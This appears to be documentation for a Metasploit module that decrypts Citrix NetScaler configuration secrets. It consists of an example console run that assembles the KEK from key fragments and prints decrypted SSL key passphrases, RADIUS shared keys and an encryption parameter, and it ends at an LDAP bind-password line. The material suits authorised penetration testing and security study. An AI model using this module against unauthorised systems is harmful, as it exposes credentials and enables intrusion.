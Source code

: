Example run against config file using KEK from NetScaler VPX running NS13.0 Build 85.15.nc:

```
msf6 > use modules/auxiliary/admin/citrix/citrix_netscaler_config_decrypt
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_conf /tmp/ns.conf 
ns_conf => /tmp/ns.conf
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_kek_f1 /tmp/F1.key
ns_kek_f1 => /tmp/F1.key
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > set ns_kek_f2 /tmp/F2.key
ns_kek_f2 => /tmp/F2.key
msf6 auxiliary(admin/citrix/citrix_netscaler_config_decrypt) > dump

[*] Building NetScaler KEK from key fragments ...
[+] NS KEK F1
[+]      HEX: dd2588bb3cb20dd643216c33489776c78e8c56f13b1301e0984dc80564eea49e
[+] NS KEK F2
[+]      HEX: 45f9e6780a1dc40b6fe75bedf2f6dbb9a86e4315d07313014fe2381c52e44d8f
[+] Assembled NS KEK AES key
[+]      HEX: 54f202b9a94649fd9eaa3f13eab514a5a267f460db0a2393f8b25f321a7d79e0

[*] Config line:
add ssl certKey netscaler_cesium137_io -cert netscaler_cesium137_io.pem -key netscaler_cesium137_io.key 30f39257d8aacc737182568184e0d535002d90a7aba3454c1e8766a958d3a4a720e485c498adc681f0e7559ff633f932 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -expiryMonitor DISABLED
[+] Plaintext: zgkEUD86rUv76coT0DkIBj1xlp5qEzH
[*] Config line:
add ssl certKey ldap_cesium137_io -cert ldap_cesium137_io.pem -key ldap_cesium137_io.key d7902778370c616480ef781c5b3922ef31bd90e75dd3aecfa0fa8a5bafc4fa16b20ed2f7a07970c3f4d8ba201a3b9b72 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -expiryMonitor ENABLED -notificationPeriod 90
[+] Plaintext: YaqoRLtSnnMPgnWyhAedYv2RO1aVtx8
[*] Config line:
add ssl certKey mail_cesium137_io -cert mail_cesium137_io-g3.pem -key mail_cesium137_io-g3.key 0e5ca2011772a9943c8f4281668b7236a8dfb97da290487d1953fa5ef768272f33d20122b055878729c75c29efaa3291 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -expiryMonitor DISABLED
[+] Plaintext: TBkrkfnP4QOWIT0FX8QCLl2GkNrnM
[*] Config line:
add ssl certKey auth_cesium137_io -cert auth_cesium137_io-g3.pem -key auth_cesium137_io-g3.key d574cca92065da27309ce87a423ac82e0c1571cd4c6df59a725f7eabee97d40136a250152506cb15962e34c90f1dc25c -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -expiryMonitor DISABLED
[+] Plaintext: flEkB3SW4YTTi9HRNnffmvJLSgJhsz5
[*] Config line:
set ns encryptionParams -method AES256 -keyValue ec5d48485c6871d1d4a2b01f9126946c53aa49eae721c8114ba7a34a1b1f8eabd443a9d641bbf5ef67f2b0237c481673587846db5378f72f9025f0762f8f9cbeebf4a16aaa2782d5c6ecd90c48a1c30d -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35
[+] Plaintext: AAAAAAXyju437Ecnb/iQpa55uUvOskx7S5hCq5dB4kMq+Lcx6g==
[*] Config line:
add authentication radiusAction APP01_DUO -serverIP 10.100.10.13 -serverPort 11812 -authTimeout 60 -radKey 535587632ffe91f2559fcf5902c7e4bf24961ee2e7f6285c03c87c2e65165fbc -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -accounting ON
[+] Plaintext: IAmSam!
[*] Config line:
add authentication radiusAction APP01_DUO_CITRIXRECEIVER -serverIP 10.100.10.13 -serverPort 21812 -authTimeout 60 -radKey 6644f481004ac7dee5a05b5a8dc3d9d9ae8c76f5fe82e0430b43acd7fb5afe9c -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -accounting ON
[+] Plaintext: IAmSam!
[*] Config line:
add authentication ldapAction AD_DUA2FAUSERS -serverName ldap.cesium137.io -serverPort 636 -authTimeout 60 -ldapBase "DC=cesium137,DC=io" -ldapBindDn ldap@cesium137.io -ldapBindDnPassword 7fbbf2ef9665641264406c17673c0cdb5774b76454f3ac8c7bb067dd0d2228c5 -encrypted -encryptmethod ENCMTHD_3 -kek -suffix 2022_05_18_14_00_35 -ldapLoginName sAMAccountName -searchFilter "&(objectCategory=user)(memberOf=CN=2FA-OWA,CN=Users,DC=cesium137,DC=io)" -groupAttrName memberOf -subAttributeName cn -secType SSL -passwdChange ENABLED -nestedGroupExtraction ON -groupNameIdentifier sAMAccountName -groupSearchAttribute memberOf -groupSearchSubAttribute CN
```